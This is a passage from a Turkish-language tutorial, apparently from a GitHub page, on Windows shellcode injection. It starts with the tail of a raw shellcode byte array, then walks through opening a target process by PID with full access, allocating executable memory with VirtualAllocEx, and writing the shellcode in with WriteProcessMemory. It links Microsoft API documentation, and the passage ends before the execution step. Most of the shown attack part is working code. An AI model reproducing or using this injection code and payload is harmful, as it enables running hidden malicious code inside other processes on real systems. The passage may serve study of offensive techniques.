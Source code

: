 ```
		 "\x7f\x8f\xa0\x7f\x10\x05\xc9\x23\x2b\xd7\x75\x5b\xf4\x8c\x50"
		 "\x23\xc5\xd2\x8b\x99\xbf\xfa\x74\x2e\xf6\x74\x94\xbe\xb9\x05"
		 "\xa1\x3b\x3e\x24\xd5\x3f\xd3\x05\x5e\xb7\x2f\xce\xb1\x8e\x71"
		 "\x48\x90\xa2\x37\x61\x3c\xf7\x31\xc7\xe9\x9d\xbf\xd6\x75\x7e"
		 "\xf9\xbf\x4b\x6d\xa0\x7e\x03\x6a\xf0\x8c\x66\x08\x6f\xdf\xa4"
		 "\xf3\x31\xe7\xe9\xeb\x86\xdf\x46\x26\x1d\x71\xc0\x9d\xaa\xd6"
		 "\x7d\x7b\xf8\x07\xa1\x62\x36\x26\x9f\xd2\xdc\x05\xa1\x62\x7f"
		 "\x9e\xbd\xef\xf9\x55\xe9\xeb\x9d\xc9\xab\xe8\xf5\x34\x61\x08"
		 "\x72\xc7\xbd\xef\x5a\xf9\xc7\xa5\x3b\xba\xa8\xbe\xb9\x4d\x2c"
		 "\x26\x5b\x86\x3a\xbf\xd0\x4d\x28\x84\x29\xce\xbd\xef\xf9\x55"
		 "\xe0\x32\x36\x61\x3c\xfe\xe8\x4c\x5e\xaa\x32\x17\x3d\xf3\x31"
		 "\xc4\xe0\xd8\x06\x52\xc3\x39\x47\xd0\xe9\x53\xad\xd6\x03\x75"
		 "\x33\x0b\xe0\xd8\x77\x19\xe1\xdf\x47\xd0\x1a\x92\xca\x3c\xaa"
		 "\xfe\x02\xa3\x34\xdf\xe2\x61\x29\xf7\x3b\xc1\x89\x5e\x79\xe2"
		 "\xf6\x3f\x43\xe5\xd4\x67\xc4\xd9\xef\xcd\xd7\x6f\xa1\x3b\x3e"
		 "\x17\x26\x40\x6d\x05\xa1\x62\x7f";
```

Şimdi sıra geldi bu **Shellcode**'u belirteceğimiz **process**'in içine eklemeye.

Herşeyden önce bizim **process** içerisine bu **shellcode**'u eklememiz için o **process**'i açmamız gerekiyor.

```
HANDLE processwithpid = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

**Fonksiyon**'nun ne işe yaradığını açıklamak ile uğraşmayacağım ama ben merak ettim diyen varsa aşşağıya bu fonksiyonun windows tarafından açıklandığı dökümantasyonunu bırakıyorum :

[OpenProcess Win API](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess)
 
 **HANDLE**'mizi oluşturup içerisine **OpenProcess**'e 3. parametre olarak **Inject** olmak istediğimiz **Process PID**'sini verip **process**'imizi açıyoruz.
 
 Bundan sonra **VirtualAllocEx** fonksiyonunu kullanarak oluşturduğumuz **shellcode**'un boyutu kadar **process** içerisinde alan ayırıyoruz :
 
 ```
 PVOID joinprocess = VirtualAllocEx(processwithpid, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 ```
 
 Basit bir şekilde **VirtualAllocEx**'in nasıl kullanıldığına ve parametrelerinin neler olduğuna bakmak isteyen olursa buradan ulaşabilir **windows** tarafından oluşturulmuş **dökümantasyonuna**  : 
 
 [VirtualAllocEx Win API](https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualallocex)
 
 Şimdi sıra geldi bu **process** içerisinde oluşturduğumuz **alan**'ın içerisine bizim **shellcode**'umuzu yazmaya yani **Inject** etmeye :
 
 ```
 WriteProcessMemory(processwithpid, joinprocess, shellcode, sizeof shellcode, NULL);
 ```
 
 Bunuda **WriteProcessMemory** ile yapabiliyoruz. **Windows** tarafından oluşturulmuş **dökümantasyonuna** ulaşmak için :
 